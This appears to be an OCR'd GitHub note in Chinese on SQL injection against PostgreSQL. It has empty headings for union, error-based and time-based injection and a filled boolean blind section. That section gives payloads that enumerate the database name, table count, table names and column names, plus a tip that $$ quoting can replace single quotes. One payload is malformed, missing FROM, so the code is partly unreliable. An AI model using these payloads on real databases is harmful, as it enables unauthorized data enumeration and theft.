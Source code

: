## PostgreSQL数据库的注入
### 一、联合注入


### 二、报错注入


### 三、布尔盲注
```sql
--先猜当前数据库的长度
and (select length(current_database())) between 0 and 30

--ascii猜解库名的每个字符
and (select ascii(substr(current_database(),1,1))) between 0 and 30

---猜解数据库的表的个数
and (select count(*) from pg_stat_user_tables) between 0 and 30

--猜解库里的表名的长度
and (select length(relname) from pg_stat_user_tables limit 1 OFFSET 0) between 0 and 30

--猜解表名里面的每个字符
and (select ascii(substr(relname,1,1)) from pg_stat_user_tables limit 1 OFFSET 0) between 0 and 30

--接下来猜解字段名
and (select+ascii(substr(column_name,1,1)) information_schema.columns where table_name=aaa) between 0 and 30
```

### 四、时间盲注

### 五、PostgreSQL语法注意
此数据库有一个特性，使用like查询子句时，比如：
```SQL
where aaa like '%aaa%';
```
这里单引号可以使用$$代替，如:
```SQL
where aaa like $$%aaa%$$;
```
但是暂时不知道原因！
